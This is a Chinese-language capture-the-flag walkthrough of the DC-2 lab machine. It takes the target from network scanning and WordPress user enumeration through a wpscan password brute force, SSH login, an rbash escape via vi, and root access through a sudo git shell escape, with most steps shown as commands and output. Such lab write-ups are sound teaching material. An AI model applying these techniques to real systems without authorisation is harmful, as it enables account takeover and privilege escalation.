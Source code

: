 # DC-2

### 目标探测

使用arp扫描一下靶机目标

```
┌──(root㉿kali)-[~/Desktop/test]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.138   00:0c:29:9b:2a:1c       VMware, Inc.
192.168.5.254   00:50:56:fc:0f:b8       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.936 seconds (132.23 hosts/sec). 5 responded
```

Nmap扫描一下目标开放端口

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nmap -sS -sV -p- -T4 192.168.5.138
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 02:10 EST
Nmap scan report for dc-2 (192.168.5.138)
Host is up (0.00085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:9B:2A:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

可用看到开放了两个端口80 web 和7744 ssh，我们访问一下80，IP访问跳转到了域名 我们将它加入到/etc/hosts文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
192.168.5.138   dc-2

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

可用看到这是一个wordpass网站吗，这个flag提供给我们的信息让我们用cewl生成密码用来登录一个用户

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

我们先用nikto扫描一下看看有没有扫描有用的信息

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nikto -host http://dc-2/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.138
+ Target Hostname:    dc-2
+ Target Port:        80
+ Start Time:         2023-12-14 02:23:26 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Drupal Link header found with value: ARRAY(0x562441ddf150). See: https://www.drupal.org/
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ /wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wp-login.php: Wordpress login found.
+ 7850 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-12-14 02:24:06 (GMT-5) (40 seconds)
```

这里有一个wordpass的登录页面，接下来我们用wpscan枚举一下它的用户名

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

这里枚举出来了三个用户名，接下来我们用cewl来生成密码，记得将用户名也保存到单独的txt文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cewl -w dc-2.txt -d 5 -m 4 http://dc-2/       
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

开始用wpscan 爆破密码

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ -U dc.txt -P dc-2.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

得到了两个账号，我们先用jerry这个用户登录一下wordpass

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

这里告诉我们，如果无法在这里拿到shell，我们得尝试一下其它方法去，我们尝试ssh登录一下

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ssh jerry@192.168.5.138 -p7744      
jerry@192.168.5.138's password: 
Permission denied, please try again.

┌──(root㉿kali)-[~/Desktop/test]
└─# ssh tom@192.168.5.138 -p7744
tom@192.168.5.138's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 14 09:58:41 2023 from 192.168.5.134
tom@DC-2:~$
```

tom这个用户可用成功登录



### 权限提升

\
`rbash` 是 Bash shell 的一种限制模式。在这个模式下，用户受到一些额外的限制，使其只能执行有限的操作，从而提高系统的安全性。

```
tom@DC-2:~$ id
-rbash: id: command not found
```

在网上查找了一下这个绕过的方法

在命令行中，输入 vi，在末行模式中依次输入以下两条内容

```
:set shell=/bin/bash

:shell
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

再配置一下环境变量就可以绕过shell了

```
tom@DC-2:~$ export PATH=/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

我们查看一下有没有以root用户正在运行的命令，tom这个用户似乎不能执行这个命令，我们su切换到jerry这个用户

```
tom@DC-2:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:/home/tom$
```

可以看到git这个命令是以root权限运行的我们，通过搜索该提权方式可以利用以下命令提权

```
jerry@DC-2:/home/tom$ sudo git help status

!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

这样就获得了一个root权限的shell

```
jerry@DC-2:/home/tom$ sudo git help status
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
```

